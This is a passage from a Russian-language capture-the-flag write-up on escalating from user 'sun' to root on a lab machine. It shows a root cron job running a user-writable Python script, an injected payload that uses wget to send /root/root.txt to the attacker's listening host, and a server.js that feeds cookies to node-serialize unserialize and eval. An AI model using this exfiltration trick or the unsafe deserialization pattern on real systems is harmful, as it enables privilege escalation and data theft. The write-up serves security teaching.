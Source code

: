 ```
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```

За сим все, машина наша.

## PrivEsc: sun → root. Способ 2
Чтобы не мучиться с реверс-шеллом, можно прибегнуть к хитрости. Для начала запустим на Kali-машине локальный HTTP-сервер (простого питоновского будет достаточно):
```
root@kali:~/tmp# python -m SimpleHTTPServer 8888
Serving HTTP on 0.0.0.0 port 8888 ...

```

После чего с машины-жертвы сделаем попытку скачать несуществующий файл, имеющий название, совпадающее с содержимым флага root'а:
```text
sun@sun:~$ echo 'import os;os.system("wget http://<LHOST>:8888/$(cat /root/root.txt)");print "f4ckU!"' > Documents/script.py
```

Ждем ⩽ 5 минут, и, о чудо:
```text
Serving HTTP on 0.0.0.0 port 8888 ...
10.10.10.85 - - [24/Aug/2018 22:25:02] code 404, message File not found
10.10.10.85 - - [24/Aug/2018 22:25:02] "GET /ba1d0019???????????????????????? HTTP/1.1" 404 -
```

Мы спровоцировали ошибку, получив при этом содержимое нужного файла. Полюбуемся теперь на собственное хулиганство (и одновременно доказательство того, что скрипт успешно отработал до конца):
```
sun@sun:~$ cat output.txt
f4ckU!
```

I guess, we're done here :triumph:

# Эпилог
## server.js
Для общего развития можно посмотреть на `/home/sun/server.js`, отвечающий за все безобразие, которое происходило на web'е:
```javascript
// server.js

var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())

app.get('/', function(req, res) {
  if (req.cookies.profile) {
    var str = new Buffer(req.cookies.profile, 'base64').toString();
    var obj = serialize.unserialize(str);
    if (obj.username) { 
      var sum = eval(obj.num + obj.num);
      res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
    }else{
```